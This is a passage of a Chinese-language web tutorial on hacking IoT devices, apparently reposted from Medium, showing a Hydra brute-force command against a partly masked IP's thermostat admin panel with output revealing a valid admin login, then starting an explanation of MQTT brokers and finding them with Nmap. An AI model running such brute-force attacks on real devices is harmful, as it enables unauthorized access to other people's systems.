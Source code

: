    <span style="color: #339966;">
    <strong class="markup--strong markup--p-strong">
     暴力破解
    </strong>
   </span>
  </h3>
  <p class="graf graf--p">
   许多被发现的物联网设备具有受密码保护的管理面板，例如以下恒温器：
  </p>
  <figure class="graf graf--figure">
   <img class="graf-image aligncenter jetpack-lazy-image" data-height="552" data-image-id="0*mQQAXAI53b8zbrM7.jpg" data-lazy-src="https://i0.wp.com/cdn-images-1.medium.com/max/1067/0*mQQAXAI53b8zbrM7.jpg?w=1100&amp;is-pending-load=1#038;ssl=1" data-recalc-dims="1" data-width="662" src="https://i0.wp.com/cdn-images-1.medium.com/max/1067/0*mQQAXAI53b8zbrM7.jpg?w=1100&amp;ssl=1" srcset="data:image/gif;base64,R0lGODlhAQABAIAAAAAAAP///yH5BAEAAAAALAAAAAABAAEAAAIBRAA7"/>
   <noscript>
    <img class="graf-image aligncenter" data-height="552" data-image-id="0*mQQAXAI53b8zbrM7.jpg" data-recalc-dims="1" data-width="662" src="https://i0.wp.com/cdn-images-1.medium.com/max/1067/0*mQQAXAI53b8zbrM7.jpg?w=1100&amp;ssl=1"/>
   </noscript>
  </figure>
  <p class="graf graf--p">
   <a class="markup--anchor markup--p-anchor" data-href="https://tools.kali.org/password-attacks/hydra" href="https://tools.kali.org/password-attacks/hydra" rel="noopener noreferrer" target="_blank">
    Hydra
   </a>
   是一个并行的登录破解程序，它支持多种协议进行攻击，新的模块很容易添加，非常快速和灵活。十年来它一直被视为 “经典” 黑客工具。它可以通过暴力轻松破解物联网设备，如下所示：
  </p>
  <pre class="graf graf--pre"><a class="__cf_email__" data-cfemail="b4c6dbdbc0f4dfd5d8dd" href="/cdn-cgi/l/email-protection">[email protected]</a> ~# hydra -t 10 -I -C passwords.txt 73.110.xx.xx -s 84 http-get "/index.shtml"
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Hydra (http://www.thc.org/thc-hydra) starting at 2019-10-30 19:53:32
[DATA] max 10 tasks per 1 server, overall 10 tasks, 49 login tries, ~5 tries per task
[DATA] attacking http-get://73.110.xx.xx:84//index.shtml
[84][http-get] host: 73.110.xx.xx   login: admin   password: xxxx
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2019-10-30 19:54:21</pre>
  <h3 class="graf graf--p">
   <span style="color: #339966;">
    <strong class="markup--strong markup--p-strong">
     使用MQTT入侵物联网
    </strong>
   </span>
  </h3>
  <p class="graf graf--p">
   MQTT 是开放式OASIS和ISO标准的轻量级发布/订阅网络协议，可在设备之间传输消息。它设计为硬件性能低下的远程设备以及网络状况糟糕的情况下的数据传输。
  </p>
  <figure class="graf graf--figure">
   <img class="graf-image aligncenter jetpack-lazy-image" data-height="350" data-image-id="0*nrO9Dfk8O5jvPxq2.jpg" data-lazy-src="https://i0.wp.com/cdn-images-1.medium.com/max/1067/0*nrO9Dfk8O5jvPxq2.jpg?w=1100&amp;is-pending-load=1#038;ssl=1" data-recalc-dims="1" data-width="607" src="https://i0.wp.com/cdn-images-1.medium.com/max/1067/0*nrO9Dfk8O5jvPxq2.jpg?w=1100&amp;ssl=1" srcset="data:image/gif;base64,R0lGODlhAQABAIAAAAAAAP///yH5BAEAAAAALAAAAAABAAEAAAIBRAA7"/>
   <noscript>
    <img class="graf-image aligncenter" data-height="350" data-image-id="0*nrO9Dfk8O5jvPxq2.jpg" data-recalc-dims="1" data-width="607" src="https://i0.wp.com/cdn-images-1.medium.com/max/1067/0*nrO9Dfk8O5jvPxq2.jpg?w=1100&amp;ssl=1"/>
   </noscript>
  </figure>
  <p class="graf graf--p">
   MQTT 体系结构由客户端和代理组成。代理是从客户端接收所有消息，然后将消息路由到订阅的客户端。
  </p>
  <p class="graf graf--p">
   MQTT 客户端可以是任何运行有 MQTT 库并通过网络连接至消息代理的设备，例如微型控制器或大型服务器。
  </p>
  <p class="graf graf--p">
   信息的传输是通过主题（topic）管理的。发布者有需要分发的数据时，其向连接的消息代理发送携带有数据的控制消息。代理会向订阅此主题的客户端分发此数据。发布者不需要知道订阅者的数据和具体位置；同样，订阅者不需要配置发布者的相关信息。
  </p>
  <p class="graf graf--p">
   通过网络扫描程序（例如 Nmap）可以很容易找到 MQTT 代理。